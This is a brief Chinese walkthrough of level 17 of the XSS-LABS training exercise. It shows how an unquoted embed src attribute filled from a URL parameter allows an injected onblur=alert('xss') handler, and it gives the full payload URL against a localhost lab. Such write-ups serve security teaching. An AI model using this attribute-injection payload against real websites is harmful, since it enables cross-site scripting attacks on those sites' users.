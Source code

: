 ![image-20220928235200635](XSS-LABS.assets/image-20220928235200635.png)

## [17]

- 查看源码发现embed标签的src属性无引号，其值在url中获取，所以直接在url中拼接onblur=alert('xss')即可,构造payload如下：

```
http://localhost:1996/level17.php?arg01=a&arg02=b+onblur=alert('xss')
```

- 鼠标点击embed区域，再点击其他区域。

![image-20221109105440728](XSS-LABS.assets/image-20221109105440728.png)
